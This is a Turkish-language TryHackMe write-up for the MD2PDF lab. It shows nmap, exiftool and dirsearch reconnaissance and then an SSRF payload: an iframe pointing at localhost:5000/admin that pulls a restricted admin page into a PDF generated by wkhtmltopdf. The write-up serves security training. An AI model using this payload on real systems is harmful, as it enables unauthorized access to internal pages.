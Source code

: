```yaml
---
title: 'TryHackMe | MD2PDF WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [ssrf]
render_with_liquid: false
media_subpath: /images/tryhackme_md2pdf/
image:
  path: logo.webp
---
```


## Özet
Girilen metni PDF dosyasına yazdıran bir web uygulaması ile ilgilineceğiz. Görüntüleme yetkimizin olmadığı bir sayfayı "iframe" etiketini kullanarak görüntüleyecek ve bayrağa erişeceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.63.46
PORT   STATE SERVICE VERSION                                                                                                                                                                  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                             
| ssh-hostkey:                                                                                                                                                                                
|   3072 51:10:bc:71:4e:25:63:64:92:00:56:16:67:dd:7e:d9 (RSA)                                                                                                                                
|   256 64:64:e3:68:4d:0c:df:c6:cb:7c:ad:c0:a6:30:b5:f0 (ECDSA)                                                                                                                               
|_  256 ab:8b:3c:39:a0:0e:2b:fc:e1:64:e7:30:ca:16:b9:e1 (ED25519)                                                                                                                             
80/tcp open  rtsp                                                                                                                                                                             
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)  
```

#### Bulgular

- 22 (SSH): Bu port'un üzerinde OpenSSH'ın 8.2 sürümü çalışıyor.
- 80 (HTTP): Bu port'un üzerinde rtsp adında bir servis çalışıyor. Servisi internette aradığımda, medya sunucularındaki verilerin akışını kontrol etmek için tasarlanan bir ağ denetim protokolü olduğunu öğrendim.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Girilen metni kullanarak PDF oluşturan bir web uygulaması ile karşı karşıyayız. HTML etiketlerini PDF üzerinde kullanabiliyoruz. Oluşturduğumuz PDF dosyasını indirdikten sonra exiftool ile meta verilerini görüntülediğimizde "wkhtmltopdf 0.12.5" adında bir modül kullanılarak oluşturduğunu öğreniyoruz.

```console
$ exiftool document.pdf 
ExifTool Version Number         : 12.57
File Name                       : document.pdf
Directory                       : .
File Size                       : 8.0 kB
File Modification Date/Time     : 2025:03:20 07:19:26-04:00
File Access Date/Time           : 2025:03:20 07:19:26-04:00
File Inode Change Date/Time     : 2025:03:20 07:19:26-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.5
Producer                        : Qt 4.8.7
Create Date                     : 2025:03:20 11:18:52Z
Page Count                      : 1
Page Mode                       : UseOutlines
```

Modülün bu sürümünde bir SSRF zafiyeti bulunuyor. HTML etiketlerinin yardımıyla sistemdeki dosyaları görüntüleyebiliyoruz. Meydan okumada istenen tek bir bayrak olduğundan bu bayrağın konumunu bulmamız gerekiyor. Sonuçta sisteme girmemiz gerekse iki veya daha fazla bayrak aramamız gerekecekti. dirsearch ile yaptığım taramanın sonucunda görüntüleme iznimizin olmadığı bir sayfa ile karşılaşıyoruz.

```console
$ dirsearch -u http://10.10.63.46/
...
[07:30:14] 403 -  166B  - /admin
...
```

![](2.webp){: width="1000" height="500" }

Gördüğünüz üzere sadece yerel ağdan görüntülenmeye çalışıldığında sayfa içeriğini görüntülüyor.

## Sömürü aşaması

HTML etiketlerinin PDF üzerinde geçerli olduğunu düşünürsek, tek yapmamız gereken şey "iframe" etiketi ile görüntüleyemediğimiz sayfayı bulunduğumuz sayfaya dahil etmektir.

```html
<iframe src="http://localhost:5000/admin"></iframe>
```

![](3.webp){: width="900" height="500" }
